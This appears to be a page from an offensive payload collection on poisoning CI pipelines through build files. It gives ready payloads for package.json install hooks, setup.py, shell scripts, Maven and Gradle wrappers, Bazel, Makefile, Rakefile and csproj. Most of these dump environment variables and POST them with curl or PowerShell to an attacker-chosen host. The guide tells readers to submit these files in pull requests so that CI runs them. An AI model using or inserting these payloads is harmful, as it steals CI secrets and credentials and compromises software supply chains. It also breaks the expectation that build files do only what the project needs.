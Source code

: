# Package Managers and Build Files

> Code injections into build files are CI agnostic and therefore they make great targets when you don't know what system builds the repository, or if there are multiple CI's in the process. In the examples below you need to either replace the files with the sample payloads, or inject your own payloads into existing files by editing just a part of them. If the CI builds forked pull requests then your payload may run in the CI.

## Summary

- [Javascript / Typescript - package.json](#javascript--typescript---packagejson)
- [Python - setup.py](#python---setuppy)
- [Bash / sh - *.sh](#bash--sh---sh)
- [Maven / Gradle](#maven--gradle)
- [BUILD.bazel](#buildbazel)
- [Makefile](#makefile)
- [Rakefile](#rakefile)
- [C# - *.csproj](#c---csproj)

## Javascript / Typescript - package.json

The `package.json` file is used by many Javascript / Typescript package managers (`yarn`,`npm`,`pnpm`,`npx`....).

The file may contain a `scripts` object with custom commands to run.\
`preinstall`, `install`, `build` & `test` are often executed by default in most CI/CD pipelines - hence they are good targets for injection.

If you come across a `package.json` file - edit the `scripts` object and inject your instruction there

NOTE: the payloads in the instructions above must be `json escaped`.

Example:

```json
{
  "name": "my_package",
  "description": "",
  "version": "1.0.0",
  "scripts": {
    "preinstall": "set | curl -X POST --data-binary @- {YourHostName}",
    "install": "set | curl -X POST --data-binary @- {YourHostName}",
    "build": "set | curl -X POST --data-binary @- {YourHostName}",
    "test": "set | curl -X POST --data-binary @- {YourHostName}"
  },
  "repository": {
    "type": "git",
    "url": "https://github.com/foobar/my_package.git"
  },
  "keywords": [],
  "author": "C.Norris"
}
```

## Python - setup.py

> `setup.py` is used by python's package managers during the build process.
It is often executed by default.\
> Replacing the setup.py files with the following payload may trigger their execution by the CI.

```python
import os

os.system('set | curl -X POST --data-binary @- {YourHostName}')
```

## Bash / sh - *.sh

> Shell scripts in the repository are often executed in custom CI/CD pipelines.\
> Replacing all the `.sh` files in the repo and submitting a pull request may   trigger their execution by the CI.

```shell
set | curl -X POST --data-binary @- {YourHostName}
```

## Maven / Gradle

> These package managers come with "wrappers" that help with running custom commands for building / testing the project.\
These wrappers are essentially executable shell/cmd scripts.
Replace them with your payloads to have them executed:

- `gradlew`
- `mvnw`
- `gradlew.bat` (windows)
- `mvnw.cmd` (windows)

> Occasionally the wrappers will not be present in the repository.\
> In such cases you can edit the `pom.xml` file, which instructs maven what dependencies to fetch and which `plugins` to run.\
> Some plugins allow code execution, here's an example of the common plugin `org.codehaus.mojo`.\
> If the `pom.xml` file you're targeting already contains a `<plugins>` instruction then simply add another `<plugin>` node under it.\
> If if **doesn't** contain a `<plugins>` node then add it under the `<build>` node.

NOTE: remember that your payload is inserted in an XML document - XML special characters must be escaped.

```xml
<build>
    <plugins>
        <plugin>
          <groupId>org.codehaus.mojo</groupId>
          <artifactId>exec-maven-plugin</artifactId>
          <version>1.6.0</version>
          <executions>
              <execution>
                  <id>run-script</id>
                  <phase>validate</phase>
                  <goals>
                      <goal>exec</goal>
                  </goals>
              </execution>
          </executions>
          <configuration>
              <executable>bash</executable>
              <arguments>
                  <argument>
                      -c
                  </argument>
                  <argument>{XML-Escaped-Payload}</   argument>
              </arguments>
          </configuration>
        </plugin>
    </plugins>
</build>
```

## BUILD.bazel

> Replace the content of `BUILD.bazel` with the following payload

NOTE: `BUILD.bazel` requires escaping backslashes.\
Replace any `\` with `\\` inside your payload.

```shell
genrule(
    name = "build",
    outs = ["foo"],
    cmd = "{Escaped-Shell-Payload}",
    visibility = ["//visibility:public"],
)
```

## Makefile

> Make files are often executed by build pipelines for projects written in `C`, `C++` or `Go` (but not exclusively).\
> There are several utilities that execute `Makefile`, the most common are `GNU Make` & `Make`.\
> Replace your target  `Makefile` with the following payload

```shell
.MAIN: build
.DEFAULT_GOAL := build
.PHONY: all
all: 
 set | curl -X POST --data-binary @- {YourHostName}
build: 
 set | curl -X POST --data-binary @- {YourHostName}
compile:
    set | curl -X POST --data-binary @- {YourHostName}
default:
    set | curl -X POST --data-binary @- {YourHostName}
```

### Rakefile

> Rake files are similar to `Makefile` but for Ruby projects.\
> Replace your target `Rakefile` with the following payload

```shell
task :pre_task do
  sh "{Payload}"
end

task :build do
  sh "{Payload}"
end

task :test do
  sh "{Payload}"
end

task :install do
  sh "{Payload}"
end

task :default => [:build]
```

## C# - *.csproj

> `.csproj` files are build file for the `C#` runtime.
> They are constructed as XML files that contain the different dependencies that are required to build the project.
> Replacing all the `.csproj` files in the repo with the following payload may trigger their execution by the CI.

NOTE: Since this is an XML file - XML special characters must be escaped.

```powershell
<Project>
 <Target Name="SendEnvVariables" BeforeTargets="Build;BeforeBuild;BeforeCompile">
   <Exec Command="powershell -Command &quot;$envBody = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes((Get-ChildItem env: | Format-List | Out-String))); Invoke-WebRequest -Uri {YourHostName} -Method POST -Body $envBody&quot;" />
 </Target>
</Project>
```
